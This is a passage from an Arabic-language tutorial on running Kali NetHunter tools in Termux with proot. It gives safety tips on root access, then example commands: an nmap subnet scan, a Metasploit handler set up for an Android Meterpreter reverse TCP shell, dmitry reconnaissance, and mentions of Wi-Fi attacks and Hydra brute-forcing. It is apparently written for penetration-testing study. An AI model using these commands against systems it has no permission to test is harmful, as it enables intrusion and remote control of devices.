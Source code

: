 ```bash

باستخدام proot، يمكنك محاكاة بيئة root بدون الحاجة لصلاحيات فعلية.

هذا يسمح بتشغيل معظم أدوات Kali NetHunter ولكن مع بعض القيود (مثل عدم القدرة على تعديل ملفات النظام أو استخدام هجمات USB).

يفضل استخدام proot للأجهزة غير المروّتة للحفاظ على أمان الجهاز.


نصائح أمنية عند استخدام الروت

لا تُفعل صلاحيات الروت إلا إذا كنت تفهم المخاطر.

احتفظ بنسخة احتياطية من بياناتك قبل العمل بصلاحيات الروت.

استخدم كلمات مرور قوية عند تفعيل خدمات مثل SSH.

تجنب تحميل أدوات غير موثوقة قد تضر النظام.



---

8. أمثلة على الاستخدام العملي

سيناريوهات اختبار الاختراق باستخدام Termux + NetHunter

فحص شبكة محلية:


nmap -sV 192.168.1.0/24

استخدام Metasploit لاستغلال ثغرة:


msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <your-ip>
set LPORT 4444
run

جمع المعلومات باستخدام أدوات NetHunter:


dmitry -winsepo <target-ip>

استخدام أدوات الشبكة والهجمات من خلال هذه البيئة

تشغيل هجمات الـ Wi-Fi (إذا كان جهازك يدعم وضع المراقبة - monitor mode).

استخدام Aircrack-ng لتحليل حركة المرور اللاسلكية.

استخدام Hydra لهجمات القوة العمياء على خدمات الشبكة.


كتابة سكربتات بسيطة لأتمتة المهام

مثال سكربت Bash لتشغيل فحص سريع:


#!/bin/bash
echo "Starting network scan..."
```